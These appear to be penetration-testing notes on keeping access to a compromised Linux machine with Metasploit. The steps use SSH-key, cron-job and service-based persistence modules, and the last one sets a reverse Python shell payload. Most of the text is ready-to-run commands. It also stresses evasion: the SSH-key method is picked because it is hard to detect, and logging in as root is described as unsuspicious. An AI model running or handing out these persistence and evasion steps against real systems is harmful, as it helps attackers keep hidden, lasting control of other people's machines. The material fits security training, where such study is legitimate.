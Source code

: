 Now, we can use MSF module to take linux persistence using SSK Key (it's more reccomended because if the connection goes down, we can restablish it and in add, it's difficult to detect than others, infact we never need to change psw on the target system).

In details, this module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time. If we don't specify user, module will add an SSH key to all users by default.

If we log in as the root user, it's not a suspicious activity, because if we both log in on the same account, we can't understand the detection.

```bash
search platform:linux persistence
use post/linux/manage/sshkey_persistence #it works with SSH private keys
show options
set CREATESSHFOLDER true #create ssh folder, becase target system may havve not the SSH folder already created
set SESSION number
```

After exploit it, will be added public key in all user accounts home directory and save in a txt file and see it with path visibile by`loot` command. After that, we can terminate all sessions `exit -y,` opening txt file that contains id rsa, and copy private key in a new file:

```bash
vim ssh_key #copy here and save contents of ssh private key
chmod 0400 ssh_key
ssh -i ssh_key root@IP #user@IP
```

We're in without creating a new user, cronjob or other.

In alternatively, we can use MSF module to take linux persistence using cron jobs:

```bash
search platform:linux persistence
use exploit/linux/local/cron_persistence #it's not the best solution, because update of cronjobs is easy to detect
show options
sessions #check if there're not conflict with others sessions LHOST ports (under connection)
```

If it doesn't work or in alternatively, we can use service\_persistence module (it creates a service on the box, and mark it for autorestart):

```bash
search platform:linux persistence
use exploit/linux/local/service_persistence
set payload cmd/unix/reverse_python #in alternative bind or reverse netcat
#check if there're not conflict with others sessions LHOST ports (under connection)
```
